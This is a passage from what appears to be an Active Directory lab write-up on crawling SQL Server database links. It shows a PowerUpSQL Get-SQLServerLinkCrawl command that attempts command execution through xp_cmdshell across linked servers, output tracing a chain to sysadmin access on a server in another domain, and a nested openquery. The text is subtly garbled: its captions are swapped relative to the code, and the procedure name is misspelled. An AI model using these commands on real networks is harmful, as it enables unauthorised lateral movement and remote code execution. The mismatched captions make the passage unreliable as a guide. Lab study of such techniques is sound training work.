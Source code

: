 So, there is a database link to dcorp-sql1 from dcorp-mssql. Let's enumerate further links from dcorpsql1. This can be done with the help of openquery:

```
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xo_cmdshell 'whoami'"
```

```
Version     : SQL Server 2019
Instance    : DCORP-MSSQL
CustomQuery :
Sysadmin    : 0
Path        : {DCORP-MSSQL}
User        : dcorp\student867
Links       : {DCORP-SQL1}

Version     : SQL Server 2019
Instance    : DCORP-SQL1
CustomQuery :
Sysadmin    : 0
Path        : {DCORP-MSSQL, DCORP-SQL1}
User        : dblinkuser
Links       : {DCORP-MGMT}

Version     : SQL Server 2019
Instance    : DCORP-MGMT
CustomQuery :
Sysadmin    : 0
Path        : {DCORP-MSSQL, DCORP-SQL1, DCORP-MGMT}
User        : sqluser
Links       : {EU-SQL45.EU.EUROCORP.LOCAL}

Version     : SQL Server 2019
Instance    : EU-SQL45
CustomQuery :
Sysadmin    : 1
Path        : {DCORP-MSSQL, DCORP-SQL1, DCORP-MGMT, EU-SQL45.EU.EUROCORP.LOCAL}
User        : sa
Links       :
```

We can also use Get-SQLServerLinkCrawl for crawling the database links automatically:

```
select * from openquery("DCORP-SQL1",'select * from openquery("DCORP-MGMT",''select * from master..sysservers'')')
```
